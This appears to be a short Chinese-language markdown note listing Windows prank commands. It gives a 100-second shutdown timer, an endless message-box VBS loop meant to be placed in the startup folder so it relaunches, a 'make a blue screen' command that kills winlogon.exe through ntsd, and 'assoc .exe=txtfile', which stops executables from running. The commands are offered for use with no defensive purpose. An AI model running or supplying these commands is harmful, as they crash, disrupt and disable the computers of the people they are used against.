 ## shutdown bat命令
```bat
shutdown -s -t 100 //100秒后关机

shutdown -a //放弃关机
```

## msgbox vbs脚本
```vbs
do
msgbox "hello"
loop
//放入window中的启动文件目录中，会一直启动
```

## 制作蓝屏
```bat
ntsd -c q -pn winlogon.exe
```

## 执行文件用txt打开
```
assoc .exe=txtfile
```
